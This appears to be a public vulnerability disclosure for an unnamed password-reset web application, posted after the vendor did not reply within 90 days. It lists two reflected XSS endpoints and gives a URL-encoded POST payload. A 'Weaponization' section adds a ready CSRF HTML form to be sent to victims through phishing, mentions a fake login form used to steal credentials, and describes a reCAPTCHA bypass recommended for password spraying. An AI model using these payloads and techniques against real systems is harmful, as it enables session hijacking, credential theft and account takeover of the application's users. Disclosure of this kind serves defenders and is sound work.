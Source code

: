 Vendor was emailed several times to fix this, no replies. 90 days was provided to fix the issue from my first email.

I was unable to view the version of this application. However, here is a list of vulnerabilities for the application:

## Reflected XSS

I found 2 XSS Vulnerabilites on the following URLs:

```
PasswordReset/ChangePass/ChangeThePass
PasswordReset/Reset/Authenticate
```

You may use the following payload as a POST request to the URL to reflect the contents of recaptcha-response. Please change the domain name to the domain you are targetting.

```
command=Next&Username=%24dc1&DomainName=xxxx.xxxx&ReCaptchaPublicKey=6LxOW5_v5AH39Tex8cBG4b57&g-recaptcha-response=%3c%73%76%67%20%6f%6e%6c%6f%61%64%3d%61%6c%65%72%74%28%31%29%3e&HomeUrl=%2FPasswordReset&X-Requested-With=XMLHttpRequest
```

### Weaponization

To abuse the POST Request Reflected XSS, you may pair it with a CSRF attack.

Create a page on your domain that you control with the following contents:
- Note: Change the form action URL to the target, and DomainName variable.

```js
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://victim.com/PasswordReset/Reset/Authenticate" method="POST">
      <input type="hidden" name="command" value="Next" />
      <input type="hidden" name="Username" value="&#36;dc1" />
      <input type="hidden" name="DomainName" value="ad&#46;&#46;" />
      <input type="hidden" name="ReCaptchaPublicKey" value="6LcgSVkaAAdOW5&#95;v5A19Tgfx68cB5b57" />
      <input type="hidden" name="g&#45;recaptcha&#45;response" value="<PAYLOAD>" />
      <input type="hidden" name="HomeUrl" value="&#47;PasswordReset" />
      <input type="hidden" name="X&#45;Requested&#45;With" value="XMLHttpRequest" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

Anything in the recaptcha response get's reflected. So you will send a phishing link to your victim to your website which will redirect the post request to the website, thus running javascript on the victims browser.

I will leave it up to your imagination to do what you'd like with your payload. In my engagement, I wrote a proof of concept and created my own login form, while hiding the real one, courcing the user to login into it.

## Recaptcha Bypass

Create a Login request, capture it in Burpsuite. Change the password or username in the post request and re-send it. Additionally, you may change the re-captcha response to whatever you'd like, meaning the server doesn't actually check it. This is great for password spraying for once you've done username enumeration.

